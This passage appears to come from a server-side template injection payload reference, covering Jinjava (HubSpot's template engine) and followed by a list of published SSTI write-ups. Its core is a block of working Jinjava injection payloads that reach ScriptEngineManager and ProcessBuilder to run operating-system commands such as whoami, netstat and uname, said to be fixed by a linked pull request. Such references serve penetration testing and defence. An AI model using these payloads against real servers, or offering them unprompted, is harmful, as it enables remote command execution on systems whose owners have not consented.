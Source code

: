 ```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developped by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Command execution 

Fixed by https://github.com/HubSpot/jinjava/pull/230

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}


{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```


## References

* [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
* [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
* [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
* [Gist - Server-Side Template Injection - RCE For the Modern WebApp by James Kettle (PortSwigger)](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
* [PDF - Server-Side Template Injection: RCE for the modern webapp - @albinowax](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [VelocityServlet Expression Language injection](https://magicbluech.github.io/2017/12/02/VelocityServlet-Expression-language-Injection/)
* [Cheatsheet - Flask & Jinja2 SSTI - Sep 3, 2018 • By phosphore](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [RITSEC CTF 2018 WriteUp (Web) - Aj Dumanhug](https://medium.com/@ajdumanhug/ritsec-ctf-2018-writeup-web-72a0e5aa01ad)
* [RCE in Hubspot with EL injection in HubL - @fyoorer](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html?spref=tw)
* [Jinja2 template injection filter bypasses - @gehaxelt, @0daywork](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [Gaining Shell using Server Side Template Injection (SSTI) - David Valles - Aug 22, 2018](https://medium.com/@david.valles/gaining-shell-using-server-side-template-injection-ssti-81e29bb8e0f9)
* [EXPLOITING SERVER SIDE TEMPLATE INJECTION WITH TPLMAP - BY: DIVINE SELORM TSA - 18 AUG 2018](https://www.owasp.org/images/7/7e/Owasp_SSTI_final.pdf)
